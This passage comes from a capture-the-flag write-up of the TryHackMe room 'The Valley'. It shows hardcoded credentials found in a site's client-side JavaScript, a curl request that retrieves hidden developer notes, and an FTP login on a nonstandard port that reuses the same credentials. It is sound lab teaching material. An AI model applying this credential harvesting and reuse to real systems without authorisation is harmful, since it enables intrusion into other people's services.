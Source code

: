 ```tsx

</html>
```

It’s still here! View the source code of `dev.js` and found this **********Login********** function:

```jsx
loginButton.addEventListener("click", (e) => {
    e.preventDefault();
    const username = loginForm.username.value;
    const password = loginForm.password.value;

    if (username === "siemDev" && password === "california") {
        window.location.href = "/dev1243224123123/devNotes37370.txt";
    } else {
        loginErrorMsg.style.opacity = 1;
    }
})
```

Use the above creds to login and the application would route to the `devNotes37370.txt` which might contain information about the ************vsftpd************ service that we have logged in failed since the above steps

```tsx
┌──(kali㉿kali)-[~/TryHackMe/TheValley]
└─$ curl http://10.10.231.45/dev1243224123123/devNotes37370.txt -X POST --data "username=siemDev&password=california"
dev notes for ftp server:
-stop reusing credentials
-check for any vulnerabilies
-stay up to date on patching
-change ftp port to normal port
```

Notice on the first line in the note “****************stop reusing credentials****************” → The ftp service is using the same creds with this login form → Try out!

# Gain Access

```tsx
┌──(kali㉿kali)-[~/TryHackMe]
└─$ ftp 10.10.231.45 -P 37370
Connected to 10.10.231.45.
220 (vsFTPd 3.0.3)
Name (10.10.231.45:kali): siemDev
331 Please specify the password.
Password: california
230 Login successful.
Remote system type is UNIX.
Using binary mode to transfer files.
```
